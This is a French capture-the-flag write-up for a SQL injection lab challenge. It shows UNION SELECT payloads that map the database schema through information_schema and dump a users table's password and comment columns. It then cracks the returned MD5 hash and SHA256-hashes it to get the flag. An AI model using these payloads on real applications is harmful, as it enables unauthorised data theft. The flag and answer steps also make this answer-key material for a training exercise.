 # SQL Injection - User Data Extraction

## Description
Cette vulnérabilité exploite une injection SQL pour extraire des données sensibles.

## Exploitation

### Étape 1: Découverte de la structure de la base de données
Nous utilisons une injection SQL pour récupérer toutes les tables et colonnes dans toutes les bases de données accessibles :

```sql
1 UNION SELECT table_name, column_name FROM information_schema.columns;
```

Cette requête nous permet de mapper complètement la structure de la base de données.

### Étape 2: Identification de la table cible
Parmi les résultats, nous identifions une table prometteuse : `users` qui contient plusieurs colonnes intéressantes :
- `user_id`
- `first_name`
- `last_name`
- `town`
- `country`
- `planet`
- `Commentaire`
- `countersign`

### Étape 3: Confirmation de la base de données courante
En analysant le comportement de l'application, nous remarquons que lors d'une recherche par ID, nous obtenons un `first_name` et un `last_name`. Cela suggère que nous sommes déjà dans la base de données contenant la table `users`.

### Étape 4: Extraction des données sensibles
Après plusieurs essais, nous trouvons que les colonnes `countersign` et `Commentaire` contiennent des données sensibles.

```sql
1 UNION SELECT countersign, commentaire FROM users;
```

### Résultats obtenus
Cette requête nous retourne le résultat suivant à la fin de la liste :

```text
ID: 1 union select countersign,commentaire from users;
First name: 5ff9d0165b4f92b14994e5c685cdce28
Surname : Decrypt this password -> then lower all the char. Sh256 on it and it's good !
```

### Étape 5: Analyse du résultat
Le résultat révèle :
- **Un message crypté** : `5ff9d0165b4f92b14994e5c685cdce28`
- **Des instructions** : "Decrypt this password -> then lower all the char. Sh256 on it and it's good !"

### Étape 6: Déchiffrement et transformation
Suivant les instructions fournies :

1. **Déchiffrement MD5** :
   ```
   5ff9d0165b4f92b14994e5c685cdce28 → "FortyTwo"
   ```

2. **Conversion en minuscules** :
   ```
   "FortyTwo" → "fortytwo"
   ```

3. **Hachage SHA256** :
   ```bash
   echo -n "fortytwo" | sha256sum
   ```

On obtient le flag après hachage SHA256: `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`
